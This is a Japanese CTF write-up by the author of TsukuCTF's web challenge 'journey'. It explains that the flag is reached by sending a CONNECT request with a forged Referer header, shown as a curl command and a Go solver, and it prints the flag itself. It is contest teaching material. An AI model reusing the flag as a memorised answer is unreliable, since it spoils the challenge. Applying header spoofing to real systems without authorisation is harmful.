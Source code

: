 ```yaml
---
title: journey
description: Response StatusとRequest Methodに関する問題
author: task4233
genre: Web
solver: 18
point: 372
---
```


# journey

## 問題文

色々と試してはいるものの、やはり正しいゴールに辿りつけないんだ。
ゴールに辿りつけばフラグが得られるらしいけど、どうすれば良いんだろう。

フラグの形式: `TsukuCTF{[a-zA-Z0-9_!?.]*}`

## 解法

`/goal` に対して `Referer` に `.../problems/journey/railway/...` となるパスを含めて `CONNECT` メソッドでリクエストを飛ばす。

```bash
curl -H 'Referer: https://tsukuctf.sechack365.com/problems/journey/railway/1' -X CONNECT https://tsukuctf.sechack365.com/problems/journey/goal
```

Go の Solver

```go
package main

import (
	"context"
	"fmt"
	"io"
	"log"
	"net/http"
	"time"
)

const TARGET_URL = "https://tsukuctf.sechack365.com/problems/journey/goal"

func main() {
	ctx := context.Background()
	ctx, cancel := context.WithTimeout(ctx, 10*time.Second)
	defer cancel()

	// Create request
	req, err := http.NewRequestWithContext(ctx, http.MethodConnect, TARGET_URL, nil)
	if err != nil {
		log.Printf("failed NewRequestWithContext: %s", err.Error())
		return
	}
	// Add Referer
	req.Header.Add("Referer", "http://example.com/problems/journey/railway/1")

	// Do Request
	client := &http.Client{}
	resp, err := client.Do(req)
	if err != nil {
		log.Printf("failed Do: %s", err.Error())
		return
	}
	defer resp.Body.Close()

	// Read Flag
	body, err := io.ReadAll(resp.Body)
	fmt.Println(string(body))
}
```

## 解法に至るまでの思考

1. `status`を確認しろと書かれているので、Status Code を確認すると`Method Not Allowed`になっている
2. `OPTIONS`メソッドで利用可能なメソッドを確認した上で全て試すと、`CONNECT`メソッドの時だけどこから来たの？みたいなことが書かれてる
3. リダイレクト結果に応じて、それっぽい Referer をつけてリクエストする

## 所感

Status Code とリクエストメソッドについて調べてもらう機会になればと思い作問しました。最終的にやるだけ問題になってしまいましたが、少しでも学びになっていれば幸いです。

## FLAG

```
TsukuCTF{H0w_wa5_y0ur_j0urney?}
```
